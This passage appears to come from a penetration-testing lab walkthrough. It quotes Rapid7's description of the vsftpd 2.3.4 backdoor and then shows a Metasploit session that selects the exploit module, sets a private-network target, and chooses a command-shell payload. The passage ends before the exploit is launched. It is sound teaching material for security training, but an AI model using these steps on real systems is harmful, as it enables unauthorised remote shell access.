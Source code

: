 The description from Rapid7 site:

**VSFTPD v2.3.4 Backdoor Command Execution**

> This module exploits a malicious backdoor that was added to the VSFTPD download archive. This backdoor was introduced into the 
> vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 according to the most recent information available. This backdoor was 
> removed on July 3rd 2011.

Let's leverage it and get a shell:

``` plain
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.127.154
RHOST => 192.168.127.154
msf exploit(vsftpd_234_backdoor) > show payloads

Compatible Payloads
===================

   Name               Disclosure Date  Rank    Description
   ----               ---------------  ----    -----------
   cmd/unix/interact                   normal  Unix Command, Interact with Established Connection

msf exploit(vsftpd_234_backdoor) > set payload cmd/unix/interact
payload => cmd/unix/interact
msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.127.154  yes       The target address
   RPORT  21               yes       The target port


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```